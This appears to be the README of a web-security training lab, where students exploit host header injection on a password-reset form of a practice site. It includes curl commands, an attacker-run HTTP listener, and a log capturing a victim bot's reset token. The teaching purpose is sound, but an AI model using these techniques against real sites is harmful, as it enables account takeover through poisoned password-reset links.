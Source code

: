 #  0. Welcome 

Welcome to Web Application Security Module \o/

Brief discussion:
```
+ Collegue:
-   Hear this, My Boss Just asked me for Customer Support Dashboard.
+ Me:
-   And ? For a Dashboard with Supports UI, Customers UI and Admin
    Portal will takes you at least 4 weeks.
+ Collegue:
-   I challenged him to do it within 3 days for reward ;)
+ Me:
-   Are you serious :O?
+ Collegue:
-   Yeah, I got Paid ChatGPT 4 by my side :'D
...
3 Days later.
...
+ Collegue:
-   I already finish it, Take a look my friend http://web0x00.hbtn!
+ Me:
-   Am I allowed to pentest it :p ?
+ Collegue:
-   Feel free, It's Hack Proof. I trust AI's Codes, \o/
```
Through this project we will guide you through exploiting 4 types of vulnerabilities which could occur within a web app :‘)

You should have:

- Pre-Installed Kali Linux (or Use a Sandbox)
- Access to our Network (Through OpenVPN or Sandbox)
- Web Browser (We Recommand FireFox)
- Terminal (For curl and sqlmap)

Warming Up:

- Get a Target Machine
- Endpoint : http://web0x00.hbtn/login
- Append to your Hosts file the domain web0x00.hbtn pointing to the target machine ip. 
- Test your connectivity 
```
ia terminal:
┌──(yosri㉿HBTN-LAB)-[~/0x00webfundamentals]
└─$ curl http://web0x00.hbtn
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/home">/home</a>. If not, click the link.
```
---

#  1. Can We Trust Our Hosts? 

Write a bash script that exploit host header injection using curl.

- Initial Endpoint : http://web0x00.hbtn/reset_password
- Your script should accept the NEW HOST as ARG 1 ("$1").
- Your script should accept the TARGET URL as ARG 2 ("$2").
- Your script should accept the FORM DATA as ARG 3 ("$3").
```
┌──(yosri㉿hbtn-lab)-[~/…/web_application_security/0x00_web_fundamentals]
└─$ ./1-host_header_injection.sh new_host http://web0x00.hbtn/reset_password email=test@test.hbtn
...
                                <div class="alert_box">
                                                <span>Email provided not found</span>
                                </div>
                                <button type="submit">Reset</button>
                                <a href="http://new_host/login">Try to sign in again ?</a>
```
---

#  2. Catch The FLAG #1 

Hints

- Check the Source-Code for known Customers emails
- A Bot will click the reset link delivered to the customer.
- The Flag will be displayed on the <header> section after you sign in as a Customer.

Find your IP in our network 
```
$ ip addr show tun0
16: tun0:  mtu 1500 qdisc fqcodel state UNKNOWN group default qlen 500
    link/none 
    inet 6.190.192.2/18 scope global tun0
       validlft forever preferredlft forever
    inet6 fe80::c749:5490:295:a827/64 scope link stable-privacy proto kernelll 
       validlft forever preferredlft forever
```
Open a HTTP server on the port 80 to listen for tampered clicks on all network interfaces. 
```
$ python3 -m http.server -b :: 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
::ffff:172.17.0.2 - - [11/Nov/2023 10:20:58] code 404, message File not found
::ffff:172.17.0.2 - - [11/Nov/2023 10:20:58] "GET /reset_password/PvgpUt9ucmv5YvfH5yIpR7wnmUolgzEJ HTTP/1.1" 404 -
```
- Initial Endpoint : http://web0x00.hbtn/login
---

